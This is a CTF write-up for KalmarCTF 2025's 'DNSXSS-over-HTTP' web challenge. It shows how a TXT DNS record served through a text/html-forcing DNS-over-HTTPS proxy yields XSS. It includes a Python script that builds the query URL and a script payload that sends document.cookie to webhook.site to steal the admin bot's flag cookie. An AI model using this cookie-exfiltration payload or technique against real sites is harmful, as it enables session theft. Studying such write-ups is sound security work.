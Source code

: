 ```yaml
---
title: "DNSXSS-over-HTTP"
description: "Do you like DNS-over-HTTPS? Well, I'm proxying `https://dns.google/`! Would be cool if you can find an XSS!\n\nReport to admin locally:\n`curl http://localhost:8008/report -H \"Content-Type: application/json\" -d '{\"url\":\"http://proxy/\"}'`\n\nReport to admin for the real flag:\n`curl https://dnxss.chal-kalmarc.tf/report -H \"Content-Type: application/json\" -d '{\"url\":\"http://proxy/\"}'`\n\n`https://dnxss.chal-kalmarc.tf/`" 
pubDate: 2025-03-11
ctf: "KalmarCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-kalmar/icon.png"
---
```


### Initial Look

We are given a `handout.zip` to start with that extracts to a basic nginx application with an admin bot. The flag is stored in a cookie of the admin bot:
```js
const express = require('express');
const puppeteer = require('puppeteer');
const app = express();

const FLAG = process.env.FLAG || 'kalmar{test_flag}';
const DOMAIN = process.env.DOMAIN || 'http://proxy/';

app.use(express.json());

function sleep(ms) {
    return new Promise(res => setTimeout(res, ms));
}

async function visitUrl(url) {
  const browser = await puppeteer.launch({
    headless: 'new',
    args: ['--no-sandbox', '--disable-setuid-sandbox']
  });

  try {
    const page = await browser.newPage();

    // Set flag cookie
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(DOMAIN).hostname,
    });

    await page.goto(url, {
      waitUntil: 'networkidle0',
    });
    await sleep(1000);

  } catch (err) {
    console.error('Error visiting page:', err);
  } finally {
    await browser.close();
  }
}

app.post('/report', async (req, res) => {
  const { url } = req.body;
  
  if (!url || typeof url !== 'string' || !url.startsWith(DOMAIN)) {
    return res.status(400).json({ error: `Invalid URL. Url should be a string and start with ${DOMAIN}` });
  }

  try {
    await visitUrl(url);
    res.json({ success: true });
  } catch (err) {
    res.status(500).json({ error: 'Failed to visit URL' });
  }
});

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
  console.log(`Adminbot listening on port ${PORT}`);
});
```

Initial interests regarding the admin bot:
- Has `--no-sandbox`, is using `puppeteer`.
- The cookie is set before visiting the page.
- The bot will only visit URLs on the specified `DOMAIN`.

The nginx configuration has some points of interest as well:
```
events {
  worker_connections 1024;
}

http {
  server {
    listen 80;
        
    location / {
      proxy_pass https://dns.google;
      add_header Content-Type text/html always;
    }
    
    location /report {
      proxy_pass http://adminbot:3000;
    }
  }
}
```
- The `dns.google` proxy returns only `text/html` content types, so if we can find what would be XSS on the wrong content type, we have achieved XSS and can steal the cookies.

### The Hunt

Looking at the main page this is what is visible:
![dnsxss-proxy.png](images/25-kalmar/dnsxss-proxy.png)

It doesn't have a lot to offer, and the functionality is limited:
- `/cache` has the ability to flush cache
- `/query` queries domains

Doing a basic query for my personal domain (seall.dev), we get this as an example output:

![dnsxss-query.png](images/25-kalmar/dnsxss-query.png)

It is fairly bare-bones in terms of functionality and with proper filtering for XSS. We are revealed a new endpoint though: `/resolve`.

The screenshot contains the URL to `dns.google`: `https://dns.google/resolve?name=seall.dev&type=A`.

But, it's a proxy so we can use that endpoint on our proxy: `https://dnxss.chal-kalmarc.tf/resolve?name=seall.dev&type=A`!

![dnsxss-resolve.png](images/25-kalmar/dnsxss-resolve.png)

Now we are rendering JSON content as HTML! I try to add a record here to achieve XSS, but it won't work due to filtering...

I them do some research into DNS-over-HTTP as a protocol, and I find some [documentation](https://developers.google.com/speed/public-dns/docs/doh) on how it works! This nets me the endpoint `/dns-query`!

> Note: During the CTF I did not need to find the developer documentation (that is for people learning from the writeup for what to do), instead a teammate (Solopie) recommended [this challenge writeup](https://ctftime.org/writeup/36743) which mentions the `/dns-query` endpoint and reminded me of it.

### XSS

The response is still forced to `text/html`, maybe it is not filtered?

I start by making a record on my domain `xss.seall.dev`. A `TXT` record with the contents `<script>alert(1)</script>`.

Utilising a Python script, I generate a valid `/dns-query` URL.

```python
#!/usr/bin/env python3
import base64
import dns.message
import dns.rdatatype

def main():
    domain = "xss.seall.dev"
    dns_query_url = "https://dnxss.chal-kalmarc.tf/dns-query"
    
    query = dns.message.make_query(domain, dns.rdatatype.TXT)
    
    wire_query = query.to_wire()
    
    encoded_query = base64.b64encode(wire_query).decode('utf-8')
    
    headers = {
        "Accept": "application/dns-message",
        "Content-Type": "application/dns-message"
    }
    full_get_uri = f"{dns_query_url}?dns={encoded_query.replace('=','')}"
    print(full_get_uri)

if __name__ == "__main__":
    main()
```

I execute the script to get my URL:
```bash
$ python3 script.py
https://dnxss.chal-kalmarc.tf/dns-query?dns=F8ABAAABAAAAAAAAA3hzcwVzZWFsbANkZXYAABAAAQ
```

![dnsxss-alert.png](images/25-kalmar/dnsxss-alert.png)

Bingo!

### Stealing from the 🍪 jar

Now we can set up an exfiltration payload in a DNS record, using a free webhook.site we can send the cookies over (Base64 encoded):
```html
<script>fetch(`https://webhook.site/...?${btoa(document.cookie)}`)</script>
```

We can then use the script to generate our URL:
```bash
$ python3 script.py
https://dnxss.chal-kalmarc.tf/dns-query?dns=F8ABAAABAAAAAAAAA3hzcwVzZWFsbANkZXYAABAAAQ
```

Send the URL we generated to the admin bot:
```bash
$ curl https://dnxss.chal-kalmarc.tf/report -H "Content-Type: application/json" -d  '{"url":"http://proxy/dns-query?dns=..."}'
{"success":true}
```

We get a response on webhook.site after some delay:
```
https://webhook.site/...?ZmxhZz1rYWxtYXJ7dGhhdF9jb250ZW50X3R5cGVfaGVhZGVyX2lzX2RvaW5nX3NvbWVfaGVhdnlfbGlmdGluZyFfZGlkX3lvdV91c2VfZG5zLXF1ZXJ5X29yX3Jlc29sdmU/fQ==
```

We can then Base64 decode that string (CyberChef, Dcode.fr, `bsae64` util, whatever) to get the flag
```
flag=kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}
```

Flag: `kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}`